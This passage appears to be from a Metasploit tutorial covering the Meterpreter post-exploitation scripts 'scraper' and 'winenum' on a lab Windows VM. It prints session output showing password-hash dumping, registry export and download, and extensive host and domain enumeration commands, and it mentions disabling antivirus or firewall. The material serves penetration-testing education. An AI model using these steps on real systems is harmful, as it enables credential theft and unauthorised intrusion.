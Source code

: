 ## scraper

The `scraper` script is used to obtain more information than what is obtained with `remotewinenum`. The information obtained also includes registry records.

```bash
meterpreter > run scraper > New session on 10.211.55.128:4444...
> Gathering basic system information...
> Dumping password hashes...
> Obtaining the entire registry...
> Exporting HKCU
> Downloading HKCU (C:\WINDOWS\TEMP\LQTEhIqo.reg)
> Cleaning HKCU
> Exporting HKLM
> Downloading HKLM (C:\WINDOWS\TEMP\GHMUdVWt.reg)
```

As seen in the examples above, very detailed information can be collected with Meterpreter script codes. In addition, it is also used to disable Antivirus or Firewall.

## winenum

The `winenum` script can be used to obtain the most detailed information about the system. You can see token, hash information and all other information with the `winenum` script.

```bash
meterpreter > run winenum > Running Windows Local Enumerion Meterpreter Script
 > New session on 10.211.55.128:4444...
 > Saving report to /root/.msf4/logs/winenum/10.211.55.128_20090711.0514-99271/10.211.55.128_20090711.0514-99271.txt
 > Checking if SSHACKTHISBOX-0 is a Virtual Machine ........
 > This is a VMware Workstation/Fusion Virtual Machine
 > Running Command List...
 > running command cmd.exe /c set
 > running command arp -a
 > running command ipconfig /all
 > running command ipconfig /displaydns
 > running command route print
 > running command net view
 > running command netstat -nao
 > running command netstat -vb
 > running command netstat -ns
 > running command net accounts
 > running command net accounts /domain
 > running command net session
 > running command net share
 > running command net group
 > running command net user
 > running command net localgroup
 > running command net localgroup administrators
 > running command net group administrators
 > running command net view /domain
 > running command netsh firewall show config
 > running command tasklist /svc
 > running command tasklist /m
 > running command gpresult /SCOPE COMPUTER /Z
 > running command gpresult /SCOPE USER /Z
 > Running WMIC Commands ....
 > running command wmic computersystem list brief
 > running command wmic useraccount list
 > running command wmic group list
 > running command wmic service list brief
 > running command wmic volume list brief
 > running command wmic logicaldisk get description,filesystem,name,size
 > running command wmic netlogin get name, lastlogon, badpasswordcount
```